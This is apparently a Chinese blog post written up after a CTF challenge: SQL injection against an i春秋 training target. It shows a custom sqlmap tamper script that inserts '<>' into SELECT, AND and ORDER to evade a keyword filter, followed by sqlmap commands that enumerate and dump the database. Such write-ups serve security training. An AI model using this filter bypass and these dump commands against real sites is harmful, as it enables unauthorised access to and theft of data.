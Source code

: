 ```yaml
---

layout: post
title:  CTF竞赛-SQL注入
subtitle: 本文为CTF web网络攻防方向，主要记录SQL注入的一道题
date:   2021-04-13 21:45:00 +0800
author: "Bryce"
header-img:  'images/gallery/wineglass-and-a-bowl-of-fruit.jpg'
tags:   [网络安全, CTF]
mathjax: true
---
```


> <cite>Title: Wineglass and a Bowl of Fruit  
Creator: Willem Kalf (Dutch, 1619–1693)  
Date Created: 1663  
Physical Dimensions: Framed: 81 x 70.5 x 7.5 cm (31 7/8 x 27 3/4 x 2 15/16 in.); Unframed: 60.3 x 50.2 cm (23 3/4 x 19 3/4 in.)  
Type: Painting  
Medium: oil on canvas  
Inscriptions: Signed and dated lower left: "W. KALF 1663"  
Fun Fact: Willem Kalf was the most accomplished proponent of the pronkstilleven, a Dutch term meaning "ostentatious still life."  
Department: European Painting and Sculpture  
Culture: Netherlands, 17th century  </cite>  

CTF竞赛题目类型主要包含 `Web 网络攻防` 、 `Reverse 逆向工程` 、 `Pwn 二进制漏洞利用` 、 `Crypto 密码攻击` 、 `Mobile 移动安全`  以及 `Misc 安全杂项` 这六个类别。

本文为web网络攻防方向。

## 赛题

### 初始来源

#“百度杯”CTF比赛# #九月场# #SQL#

### 赛题传送门

<a href="https://www.ichunqiu.com/battalion?t=1" target="_blank">i春秋CTF大本营</a>  

【赛题类型】—>【CTF训练】

【比赛名称】—>【全部】

【题目类型】—>【Web】

选择价值 50pt，类型为 Web，名称为【SQL】的题目：

![image-20210413211837458](/images/posts/ctf/image-20210413211837458.png)

## 解题过程

题目内容：

出题人就告诉你这是个注入，有种别走！

题目很嚣张，进入靶场环境后，也很直接，告诉你flag就在数据库中。习惯性打开F12，调出**HackBar**:

![image-20210413212033452](/images/posts/ctf/image-20210413212033452.png)

- 先一顿手工注入测试，基本上出现下面三种回显：

  1）明说是**注入代码**

  ![image-20210413212311861](/images/posts/ctf/image-20210413212311861.png)

  2）空白

  ![image-20210413212415559](/images/posts/ctf/image-20210413212415559.png)

  3）**有效回显**

  ![image-20210413212510702](/images/posts/ctf/image-20210413212510702.png)

- 时间过去了一大半，终于探测出来了个大概：

  - select、and、or、order等关键词会被检测直接标记**inj code**
  - <>会被替换为空
  - union联合查询输出长度为3

- 下面开始祭出sqlmap大法，当然需要会使用基本的sqlmap语法，网上教程请自行慢慢享用

  另外还需要会编写sqlmap tamper的一点点知识

  这里，我找了个sqlmap自带的`escapequotes.py`的过滤语法：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      return payload.replace("'", "\\'").replace('"', '\\"')
  ```

  然后在此基础上，修改为刚刚找出来的几个关键词过滤，保存为自己的`mytam`：

  ```python
  #!/usr/bin/env python
  
  """
  Copyright (c) 2006-2018 sqlmap developers (http://sqlmap.org/)
  See the file 'LICENSE' for copying permission
  """
  
  from lib.core.enums import PRIORITY
  
  __priority__ = PRIORITY.NORMAL
  
  def dependencies():
      pass
  
  def tamper(payload, **kwargs):
      """
      Slash escape single and double quotes (e.g. ' -> \')
  
      >>> tamper('1" AND SLEEP(5)#')
      '1\\\\" AND SLEEP(5)#'
      """
  
      payload = payload.replace("SELECT", "SE<>LECT").replace('AND', 'AN<>D').replace("ORDER", "ORD<>ER")
      return payload
  ```

  重点就是替换了`select`、`and`、`order`三个关键词

- 然后放到sqlmap里跑一跑：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py`

  ![image-20210413213455006](/images/posts/ctf/image-20210413213455006.png)

  因为我已经跑过一遍了，这里直接读取session拿到结果了，说明这里存在可以利用的sql漏洞

- 接下来获取数据库和表：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py --tables`

  ![image-20210413213706267](/images/posts/ctf/image-20210413213706267.png)

  可以发现除了系统表以外，在sqli数据库里面存在两张表：info和users，大概率就在info表里了

- 直接查info表里的所有信息：

  `sqlmap -u "http://26dd0061fbe24d5ea27afa9403e9265c78eebd7d89ec452c.changame.ichunqiu.com/index.php?id=1"  --tamper=./mytam.py -D sqli -T info --dump`

  ![image-20210413213857446](/images/posts/ctf/image-20210413213857446.png)

至此，得到flag。

## 总结

这次题目主要针对sql注入，注意点有两个：

1、手工注入测试，找到过滤规则，这也是在实战中经常会需要绕过WAF的方法，多练就是了

2、sqlmap的熟练使用，会加快渗透测试流程。前提也是需要对sqlmap有一定的熟练程度
